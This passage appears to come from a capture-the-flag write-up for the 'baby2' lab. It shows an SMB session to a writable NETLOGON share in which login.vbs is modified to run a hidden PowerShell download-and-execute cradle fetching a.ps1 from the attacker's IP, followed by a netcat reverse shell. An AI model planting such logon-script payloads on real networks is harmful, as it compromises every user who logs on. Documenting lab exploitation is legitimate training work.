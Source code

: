 ![img-description](/assets/images/1 (1).png)

we can see its about login.vbs so we can try to change login.vbs while we have READ,WRITE access

    ➜  baby2 smbclient \\\\DC\\NETLOGON -U Carl.Moore
    Password for [WORKGROUP\Carl.Moore]:
    Try "help" to get a list of possible commands.
    smb: \> dir
    .                                   D        0  Tue Aug 22 15:28:27 2023
    ..                                  D        0  Tue Aug 22 13:43:55 2023
    login.vbs                           A      992  Sat Sep  2 10:55:51 2023

we just add our malicious code at finish


    CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://10.8.2.152/a.ps1')"
    MapNetworkShare "\\dc.baby2.vl\apps", "V"
    MapNetworkShare "\\dc.baby2.vl\docs", "L"
    
now its changed size for example

    smb: \baby2.vl\scripts\> dir
    .                                   D        0  Tue Aug 22 15:28:27 2023
    ..                                  D        0  Tue Aug 22 13:43:55 2023
    login.vbs                           A      992  Sat Sep  2 10:55:51 2023

                    6126847 blocks of size 4096. 2017598 blocks available
    smb: \baby2.vl\scripts\> put login.vbs
    putting file login.vbs as \baby2.vl\scripts\login.vbs (2.4 kb/s) (average 2.4 kb/s)
    smb: \baby2.vl\scripts\> dir
    .                                   D        0  Tue Aug 22 15:28:27 2023
    ..                                  D        0  Tue Aug 22 13:43:55 2023
    login.vbs                           A     1226  Sun Jan 12 16:29:02 2025

## reverse-shell

    ➜  baby2 python3 -m http.server 80

    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.111.91 - - [12/Jan/2025 16:44:28] "GET /a.ps1 HTTP/1.1" 200 -

    ➜  baby2 nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.111.91] 49628
    whoami
    baby2\amelia.griffiths
we got our first shell so look at BHCE 

## WriteDACL

![img-description](/assets/images/2 (2).png)

Windows Abuse:
